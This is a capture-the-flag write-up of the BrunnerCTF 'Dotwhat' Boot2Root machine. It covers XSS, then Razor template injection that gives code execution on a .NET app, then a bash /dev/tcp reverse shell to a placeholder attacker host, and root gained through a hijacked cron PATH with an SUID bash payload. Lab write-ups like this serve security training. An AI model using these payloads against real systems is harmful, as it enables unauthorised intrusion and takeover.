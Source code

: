 # Dotwhat – Boot2Root (BrunnerCTF)

In this writeup, we’ll go through solving the **Dotwhat** Boot2Root challenge from **BrunnerCTF**.  
The target is a `.NET` web application, and we’ll exploit it step-by-step to gain user and root access.
![Image](images/Pasted%20image%2020250824164409.png)
<br/>

![Image](images/Pasted%20image%2020250824172856.png)
<br/>


---

## 1. Initial Recon
![Image](images/Pasted%20image%2020250824164640.png)
<br/>

After opening the website, we’re presented with a form that has **three input fields**.

Since the app is built with **.NET**, my first thought was to test for **XSS injection** and **SQL injection** in the fields, lets start with **XSS**.

I injected the following payload into each input to identify which one is vulnerable:
![Image](images/Pasted%20image%2020250824164817.png)
<br/>

```html
<script>alert("xss 1 or 2 or 3")</script>
```

After submitting, only the **Instruction** input field triggered the alert.  
This confirmed an **XSS vulnerability** due to raw HTML rendering.
![Image](images/Pasted%20image%2020250824164937.png)
<br/>
![Image](images/Pasted%20image%2020250824165004.png)
<br/>

---
## 2. From XSS to SSTI

By fingerprinting the application with **Wappalyzer**, we confirmed it’s a **.NET web app**.  
In .NET (Razor pages), server-side template injection (SSTI) is possible by using `@` syntax.
![Image](images/Pasted%20image%2020250824165106.png)
<br/>

I tested SSTI with a simple arithmetic payload:

```html
<script>
@(7 * 7)
</script>
```
![Image](images/Pasted%20image%2020250824165444.png)
<br/>

Looking at the **page source**, I saw the value `49` — proof that SSTI was working!  
This meant we could escalate from XSS → SSTI → RCE.
![Image](images/Pasted%20image%2020250824165615.png)
<br/>


---

## 3. Achieving Remote Code Execution

To determine the OS, I attempted to run `pwd`:

```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("pwd");
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.UseShellExecute = false;
    proc.Start();
    @proc.StandardOutput.ReadToEnd();
}
</script>
```
![Image](images/Pasted%20image%2020250824170349.png)
<br/>


The output confirmed we were on a **Linux host**.
![Image](images/Pasted%20image%2020250824170423.png)
<br/>

### Reverse Shell Payload

Next, I crafted a reverse shell payload to connect back to my attacker machine using ngrok:
![Image](images/Pasted%20image%2020250824170454.png)
<br/>
![Image](images/Pasted%20image%2020250824170555.png)
<br/>
![Image](images/Pasted%20image%2020250824170749.png)
<br/>


```html
<script>
@{
    var proc = new System.Diagnostics.Process();
    proc.StartInfo = new System.Diagnostics.ProcessStartInfo("/bin/bash", "-c \"/bin/bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\"");
    proc.StartInfo.UseShellExecute = false;
    proc.StartInfo.RedirectStandardOutput = true;
    proc.StartInfo.RedirectStandardError = true;
    proc.Start();
    @proc.StandardOutput.ReadToEnd()
    @proc.StandardError.ReadToEnd()
}
</script>
```

On my listener (`nc -lvnp 4444`), I received a shell as the **user**.
![Image](images/Pasted%20image%2020250824170929.png)
<br/>

---

## 4. User Flag

With the shell established:

```bash
cd ~
cat user.txt
```

Output:

```
brunner{Something here}
```

User flag captured ✅

---

## 5. Privilege Escalation

To escalate, I enumerated **SUID binaries**:

```bash
find find / -perm -4000 -o -perm -2000 -type f 2>/dev/null    
/usr/bin/chage
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/expiry
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pam_extrausers_chkpwd
/usr/sbin/unix_chkpwd

```

Among them, `/usr/bin/crontab` stood out.

### Cron Exploit

Checking `/etc/cron.d/`, I found a custom cron job:

```bash
ls -la /etc/cron.d/          
total 12
drwxr-xr-x. 1 root root  14 Aug 23 19:11 .
drwxr-xr-x. 1 root root  12 Aug 23 19:11 ..
-rw-r--r--. 1 root root 102 Mar 31  2024 .placeholder
-rw-r--r--. 1 root root 201 Apr  8  2024 e2scrub_all
-rw-r--r--. 1 root root 189 Aug 23 19:11 migrate
cat /etc/cron.d/migrate    
* * * * * root cd /home/user/app && /usr/bin/dotnet ef database update >> /var/log/migrate.log 2>&1
```

Notice: The `PATH` includes `/opt/devtools` and the cron executes `dotnet`.  
Since `/opt/devtools/` is writable by our user, we can hijack it.

I created a malicious fake `dotnet` binary:

```bash
echo '#!/bin/bash
chmod u+s /bin/bash' > /opt/devtools/dotnet
chmod +x /opt/devtools/dotnet
```

After a minute, cron executed our payload and `/bin/bash` became SUID.

---

## 6. Root Shell & Flag

Now I spawned a root shell:

```bash
/bin/bash -p
id
```

```
uid=1001(user) gid=1001(user) euid=0(root) groups=1001(user),100(users)
```

We are **root**!

Finally, retrieving the root flag:

```bash
cd /root
cat root.txt
```

Output:

```
brunner{SomethingSecret here}
```

Root flag captured ✅

---

## Conclusion

This challenge demonstrated a full attack chain:

1. **XSS → SSTI** in a .NET Razor app
    
2. **SSTI → RCE** with `System.Diagnostics.Process`
    
3. **Reverse shell** for initial foothold
    
4. **Cron + PATH hijacking** for privilege escalation
    
5. **Root access** obtained successfully
    

A neat and realistic Boot2Root machine! 🚩
